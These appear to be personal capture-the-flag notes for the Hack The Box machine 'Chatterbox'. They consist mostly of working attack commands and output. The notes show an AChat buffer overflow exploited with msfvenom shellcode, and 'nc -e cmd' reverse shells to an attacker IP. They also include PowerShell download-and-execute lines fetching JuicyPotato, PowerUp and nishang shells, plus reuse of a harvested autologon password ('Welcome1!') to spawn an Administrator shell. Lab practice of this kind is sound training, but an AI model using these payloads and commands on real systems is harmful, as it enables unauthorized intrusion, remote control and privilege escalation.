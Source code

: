 PORT     STATE SERVICE    VERSION
9255/tcp open  tcpwrapped
9256/tcp open  tcpwrapped



https://www.speedguide.net/port.php?port=9256


Achat is vulnerable to a SEH-based stack buffer overflow, caused by improper bounds checking by AChat.exe. By sending a specially-crafted UDP packet to the default port 9256 to overwrite the SEH handler, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the application to crash.
References: [EDB-36056], [XFDB-100845]


kali@kali:~/htb/boxes/chatterbox/10.10.10.74$ searchsploit achat
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                                                                  | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                                                     | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                                                        | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                                                          | php/webapps/24647.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python


msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

kali@kali:~$ sudo nc -lvvvnp 443
listening on [any] 443 ...

connect to [10.10.14.2] from (UNKNOWN) [10.10.10.74] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred



sudo /usr/bin/impacket-smbserver share $(pwd)


net use \\10.10.14.2\share x:


/opt/privesc/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/privesc/windows/Wind                                                                                                                                                               
ows-Exploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt


[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 


cp /opt/privesc/windows/windows-kernel-exploits/MS16-135/41015.exe .






[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/nc.exe', 'nc.exe')


start /B nc.exe -e cmd 10.10.14.2 1337

powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/JuicyPotato.exe', 'JuicyPotato.exe')


powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-LovelyPotato.ps1')

 msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 --format exe -o rev.exe


https://github.com/TsukiCTF/Lovely-Potato
sleep $((10 * 60))


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/EoP.exe', 'EoP.exe')


https://github.com/ivanitlearning/Juicy-Potato-x86/releases


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/JuicyPotato-Static32.exe', 'JuicyPotato-Static32.exe')


powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1'); Invoke-AllChecks"


*] Checking for Autologon credentials in registry...


DefaultDomainName    :                                                         
DefaultUserName      : Alfred                                                  
DefaultPassword      : Welcome1!                                               
AltDefaultDomainName :                                                         
AltDefaultUserName   :                                                         
AltDefaultPassword   : 



powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/winPEAS.bat', 'winpeas.bat')


$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Managment.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/shell.ps1')" -Credential $cred



powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/powershell-rev.ps1')


 msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e -f powershell -o powershell-rev.ps1

 powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/powershell-rev.ps1')


 cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 

 powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1')




powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/privesc.ps1')





```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1')" -Credential $cred
```



Synopsis in the end:
- Use AChat buffer overflow
- Powershell is not stable, copy nishang /opt/nishang/Shells/ powershell reverse shell to be able to run powershell interactive
- Create secure password, we got from winPEAS autologin
- Run process as admin with same password, reverse powershell again for example